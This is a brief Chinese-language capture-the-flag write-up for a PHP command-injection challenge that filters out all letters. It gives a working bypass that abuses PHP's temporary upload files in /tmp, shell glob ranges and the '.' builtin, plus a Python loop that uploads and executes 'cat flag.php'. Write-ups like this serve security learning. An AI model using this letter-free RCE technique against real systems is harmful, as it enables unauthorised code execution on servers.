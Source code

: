 tags:: CTFWEB/RCE, CTFWEB/Shell/WAF绕过

- # WP
  
  题目会执行参数c，但是参数c不能包含任何字母
  
  ```php
  if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
  system($c);
  } 
  ```
  
  注意到PHP的一个特性：上传文件时，PHP会将文件暂存在`/tmp`中，文件名为`php??????`(问号为大小写字母)
  
  *nix shell 可以用[glob](https://man7.org/linux/man-pages/man7/glob.7.html)匹配文件
  
  > 其中可以用`[@-[]`代表大写字母，`[_-{]`代表小写字母(ascii在这个区间的字母)
  
  并且，*nix shell还有一个特性：`.`代表当前shell，也就是说`. ./test.sh`相当于用当前的shell执行`test.sh`
  
  使用这三个特性，我么可以向目标发送并执行恶意文件，实现RCE
  
  ```python
  while True:
    r = requests.post(url, 
        params = {
            "c": ". /???/????????[@-[]"
        },
        files={
            "file":("a.txt", "cat flag.php")
        }
    )
    if r.text:
        break
  
  print(r.text)
  ```
-